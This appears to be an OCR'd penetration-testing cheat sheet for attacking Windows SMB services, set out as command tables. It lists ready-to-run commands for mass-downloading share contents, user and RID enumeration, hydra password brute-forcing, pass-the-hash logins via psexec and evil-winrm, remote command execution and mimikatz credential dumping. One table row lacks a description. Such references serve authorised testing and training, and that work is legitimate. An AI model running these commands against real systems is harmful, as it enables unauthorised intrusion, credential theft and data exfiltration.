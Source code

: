 ### **SMBCLIENT COMMANDS TO DOWNLOAD ALL FILES**

| COMMAND | DESCRIPTION |
| --- | --- |
| `smbclient //[IP-ADDRESS]/[SHARE] -U [USERNAME]` | Connect to the SMB share at specified IP and share name. |
| `mask ""` | Clear any existing file mask to match all files. |
| `recurse` | Enable recursive mode to include subdirectories. |
| `prompt` | Disable interactive mode to avoid prompts for each file. |
| `mget *` | Download all files and directories from the share to the current directory. |

### **USERS ENUMERATION**

| DESCRIPTION | COMMAND EXAMPLE |
| --- | --- |
| Enumerate users | `crackmapexec smb [TARGET-IP] -u 'user' -p 'PASS' --users` |
| Perform RID Bruteforce to get users | `crackmapexec smb [TARGET-IP] -u 'user' -p 'PASS' --rid-brute` |
| Enumerate domain groups | `crackmapexec smb [TARGET-IP] -u 'user' -p 'PASS' --groups` |
| Enumerate local users | `crackmapexec smb [TARGET-IP] -u 'user' -p 'PASS' --local-users` |

### **BRUTE-FORCING SMB CREDENTIALS**

| SCENARIO | COMMAND |
| --- | --- |
| Unknown User | `hydra -L user.txt -p "Password" -f [TARGET-IP] smb` |
| Unknown Password | `hydra -l user -P /opt/rockyou.txt -f [TARGET-IP] smb` |
| Unknown User and Password | `hydra -L user.txt -P /opt/rockyou.txt -f [TARGET-IP] smb` |
| With Domain | `hydra -l user -P /opt/rockyou.txt -f -m Domain [TARGET-IP] smb` |

### **PASS THE HASH TECHNIQUES**

| TECHNIQUE | COMMAND |
| --- | --- |
| psexec | `crackmapexec smb [TARGET-IP] -u '[USERNAME]' -d '[DOMAIN]' -H ':[NTLM-HASH]' --shares` |
| psexec (impacket) | `impacket-psexec -hashes ":[NTLM-HASH]" [DOMAIN].local/[USERNAME]@[TARGET-IP]` |
| CME | `evil-winrm -i [TARGET-IP] -u [USERNAME] -H [NTLM-HASH]` |

### **CRACKMAPEXEC COMMANDS**

| COMMAND | DESCRIPTION |
| --- | --- |
| `crackmapexec smb -L` | Lists available SMB shares and their permissions. |
| `crackmapexec [TARGET-IP] -u [USERNAME] -H [NTLM-HASH] --local-auth` | Accesses SMB shares through local authentication with an NTLM hash. |
| `crackmapexec smb --gen-relay-list smb-targets.txt [IP-ADDRESS/RANGE]` |     |
| `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'net group "Domain Admins" /domain'` | Executes Windows commands over SMB to list Domain Admins. |
| `crackmapexec smb [IP-ADDRESS/RANGE] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -M mimikatz` | Executes Mimikatz to extract credentials from SMB targets in the specified subnet. |
| `crackmapexec smb [TARGET-IP] -u '[USERNAME]' -p '[PASSWORD]' --pass-pol` | Extracts password policies |
